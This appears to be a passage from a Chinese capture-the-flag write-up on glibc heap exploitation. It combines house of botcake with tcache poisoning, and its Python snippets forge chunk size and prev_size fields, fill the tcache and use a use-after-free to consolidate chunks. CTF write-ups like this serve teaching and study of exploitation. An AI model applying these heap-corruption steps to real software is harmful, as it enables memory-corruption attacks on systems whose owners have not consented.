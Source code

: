 这题如果单纯的打house of botcake，那么后续只能打io leak泄露一个堆地址。如果想第二次打tcache poisoning的话，就必须要进行一点布局

```plain
add(0x100,'a')
    add(0x100,'b')

    add(0x80,'c')
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged
```

[![](assets/1700186924-24090e015e71f829e9f664e2d892d333.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162844-27dee414-845a-1.png)

[![](assets/1700186924-10a0a64ccb72471500ad342ae9d9551e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162850-2b91ef52-845a-1.png)

```plain
for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)
```

将 chunk3-10 delete来把tcachebin填满

free掉chunk1，再将chunk0 delete来与chunk1合并
